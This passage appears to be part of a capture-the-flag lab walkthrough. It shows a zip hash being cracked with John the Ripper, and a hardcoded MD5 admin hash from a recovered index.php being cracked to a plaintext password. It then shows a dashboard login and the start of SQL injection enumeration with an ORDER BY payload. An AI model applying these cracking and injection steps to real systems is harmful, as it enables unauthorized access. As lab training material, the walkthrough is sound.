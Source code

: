 ```txt
$ john --wordlist=/usr/wl/rockyou.txt zip.hash
```

![5799683869748.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625879551999/Y7D4RP-fQ.png align="left")

```sh
$ unzip backup.zip

Archive:  backup.zip
[backup.zip] index.php password:
  inflating: index.php
  inflating: style.css
```

## Backup

In the `index.php` we can see there is a MD5 hash comparison - by cracking this hash we can get password for `admin`.

```php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
```

This time, [CrackStation](https://crackstation.net/) finds the plain text right away.

![5258309278801.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625879571068/gNZCDsZvm.png align="left")

Save for later and let's come back to the recon - website.

`$ echo 'admin|qwerty789' | tee -a ../.credentials`

[Back to top](#contents) ⤴

## Website (:80)

![1736916102868.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880107903/E36OLXFMQ.png align="left")

By using the `admin/qwerty789` credentials, I can access the dashboard.

![4725115556390.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880099771/IypPaW8IP.png align="left")

By intercepting the requests in `burpsuite` and making prepared requests in the repeater, I can recognize the select used to get the dashboard is using 5 columns.

```txt
GET /dashboard.php?search='%20ORDER%20BY%206;-- HTTP/1.1

ERROR:  ORDER BY position 6 is not in select list
LINE 1: Select * from cars where name ilike '%' ORDER BY 6;--%'
```
